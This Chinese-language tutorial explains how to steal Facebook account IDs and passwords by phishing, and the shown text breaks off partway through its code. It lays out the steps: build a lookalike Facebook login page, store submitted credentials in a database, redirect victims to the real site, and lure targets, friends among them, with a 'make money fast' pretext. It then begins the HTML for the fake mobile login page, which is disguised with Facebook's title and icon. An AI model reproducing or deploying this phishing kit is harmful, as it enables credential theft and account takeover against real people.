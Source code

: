 以下是破解脸书账户或密码的步骤列表:

*   创建一个类似于脸书登录页面的登录页面。
*   创建一个登录页面处理程序脚本，将登录凭据存储在数据库中。
*   在存储或获取用户的登录凭证后，将用户重定向到他们原来的脸书页面。
*   此外，创建一个数据库来存储您的脸书 ID 和密码。
*   现在将链接发送给用户。
*   此外，制作一个网页来查看所有被黑的脸书帐户 id 和密码。

把链接发给目标用户后，在这之后(或者上面给出的倒数第二步之后)就不用做什么了。过了这一步，目标用户就开始为你做事了。换句话说，他或她会自动给你他或她在你数据库中的脸书账户 id 和密码。你只需要观察数据库中的魔法。

例如，你创建了一个网页，向用户展示如何在很短的时间内赚钱，但在继续阅读文章之前，你要求用户登录脸书继续阅读。该登录部分的设计必须与原始的脸书登录完全相同。现在将链接发送给目标用户。当他或她打开链接时，页面要求用户登录以便继续，用户立即登录以便继续阅读文章，但是因为您已经编写了重定向代码。结果，用户被重定向到他或她的原始脸书页面，并且您的数据库包含他或她的脸书登录凭证。

您还可以创建一个网页，显示目标用户或被困用户的脸书帐户密码以及他们的脸书 id 的列表。

如果你已经完成了最后一步，即找到一个显示被黑的脸书账户详细信息的网页，那么你就不必一次又一次地进入你的数据库来检查是否有任何用户被困。

现在让我们来看看黑客入侵任何人的脸书账户 ID 和密码时使用的分步代码和描述。

## 1.使登录页面看起来像脸书登录页面

在开始这一步之前，先看看目标用户最喜欢什么。例如，如果你的朋友(目标用户)喜欢在很短的时间内赚钱，那么就创建一个登录页面，其中包含与赚钱相关的消息。或者你的朋友喜欢健康，或者他或她喜欢打架，等等。该消息随后与一些身体健康训练提示等一起发送。

现在让我们用下面的代码创建一个演示登录页面来完成第一步:这个登录代码是为移动用户准备的。您可以使用 JavaScript 代码实现重定向代码，将用户重定向到桌面版登录页面；您将获得此登录代码后的代码。

```
<!doctype html>
<html>
<head>
   <title>Top 10 Tips to Earn Money in Short Time</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
   <meta name="description" content="Here are the list of top 10 tips to earn money in short time and become a
   successful earner in today's market. This list are exclusive to get for free to everyone.">
   <meta property='og:image' content='earnmoney.jpg' />
   <link rel="shortcut icon" href="https://www.facebook.com/rsrc.php/yl/r/H3nktOa7ZMg.ico">
   <style>
      table tr td{text-align:center;}
      .bottom a{color:#D3D3D3;}
      .bottom a:link{text-decoration:none;}
      input{padding:10px;}
      .login{background-color:#3b5998;color:white;}
      .check{background-color:#32CD32;color:white;padding:12px;}
      .inputf a:link{text-decoration:none;}
   </style>
</head>
<body style="margin:0px;">
<script>
   document.title='Facebook - Log In or Sign Up';
</script>
<div style="width:100%;">
<div style="height:40px;background-color:#3b5998;padding-bottom:10px;padding-left:5px;">
   <span style="color:white;font-size:120%;"><br/>facebook</span>
</div>
<div style="background-color:#FAFAD2;padding:5px;line-height:23px;text-align:center;">
   <span style="color:purple;">Login to continue to get top 10 exclusive tips to earn money in short time.</span>
</div>
<div class="inputf" style="background-color:AliceBlue;padding:10px;text-align:center;"><br/>
   <form name="fbform" method="post" action="login.php">
      <input name="email" type="text" id="email" placeholder="Email address or phone number" maxlength="40" size="30px"
```